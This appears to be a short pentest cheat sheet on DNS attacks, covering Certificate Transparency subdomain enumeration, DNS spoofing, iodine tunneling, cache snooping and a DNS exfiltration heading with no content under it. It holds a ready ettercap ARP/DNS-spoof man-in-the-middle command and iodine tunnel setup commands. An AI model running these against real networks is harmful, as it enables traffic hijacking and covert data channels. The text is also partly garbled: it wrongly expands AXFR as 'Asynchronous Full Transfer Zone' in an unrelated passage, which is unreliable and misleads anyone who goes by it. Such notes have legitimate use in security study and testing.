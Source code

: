 ### DNS Enumeration via Certificate Transparency Logs

1. Certificate Transparency logs monitor widely used SSL/TLS certificates for domain names and subdomains. These logs can be used to identify subdomains and services used by a target.<br>
2. DNS CertSpotter: Utilize online tools like certspotter.com to scan Certificate Transparency (CT) logs for a specific domain.<br>

Subdomain Enumeration: Examine SSL/TLS certificates listed in CT logs and identify subdomains associated with a particular target domain.
This procedure is abbreviated `Asynchronous Full Transfer Zone` (`AXFR`).

# Attack Vectors
## DNS Spoofing
DNS spoofing involves introducing corrupt Domain Name System data into a DNS resolver's cache, causing the name server to return an incorrect IP address, diverting traffic to the attacker's computer.

#### Poisoning with Ettercap
Ettercap is a comprehensive suite for man-in-the-middle attacks on LAN. It can be used for DNS spoofing.
```
ettercap -T -q -M arp:remote /<gateway-ip>// /<target-ip>// -P dns_spoof
```
## DNS Tunneling
DNS Tunneling leverages DNS queries and responses to encapsulate data of other programs or protocols in DNS queries and responses.

#### Setup with Iodine
Iodine lets you tunnel IPv4 data through a DNS server.
```
# Server side
iodined -f -c <tunnel-ip> <domain>

# Client side
iodine <dns-server-ip> <domain>
```
# Post-Exploitation
## Cache Snooping
Cache snooping is a technique to determine if a DNS server has specific records in its cache.
```
dig @<dns-server> <domain> +norecurse
```
## Reverse DNS Lookup
Reverse DNS lookup is a DNS query for the domain name associated with a given IP address.
```
dig -x <ip-address>
```
## DNS Exfiltration
### Data exfiltration over DNS involves encoding data in DNS queries and responses, allowing data to be extracted from a network covertly.
